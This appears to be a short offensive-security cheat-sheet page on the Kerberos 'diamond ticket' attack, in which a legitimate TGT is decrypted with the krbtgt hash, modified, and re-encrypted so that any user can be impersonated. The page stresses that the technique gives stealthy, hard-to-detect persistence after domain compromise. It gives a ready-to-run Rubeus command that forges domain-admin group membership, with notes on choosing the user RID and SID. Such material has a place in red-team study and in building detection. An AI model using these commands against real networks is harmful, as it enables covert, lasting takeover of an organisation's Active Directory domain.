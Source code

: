 # Diamond Ticket

A diamond ticket is a TGT which can be used to access any service as any user. A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it.

### **Attack Prerequisites**

* krbtgt AES256 hash
* Access to krbtgt password hash

### **Purpose of Diamond Ticket**

The diamond ticket attack is a post exploitation attack where an attacker has already compromise the domain admin account. It is primarily **used for host persistence** instead of privilege escalation.

A Diamond Ticket works identically to a Golden Ticket, however it is **more stealthy** and **harder to detect**.

### Exploit

```sh
Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:[key] /nowrap
# /groups:512 (512 for domain admins)
# /ticketuserid (domain RID of user) 
# use powershell command wmic useraccount get domain,name,sid to got user SID 
# Example SID for nlamb: S-1-5-21-569305411-121244042-2357301523-1106
# Therefore RID for nlamb is 1106

Rubeus.exe describe /ticket:doIFYj[...snip...]
```
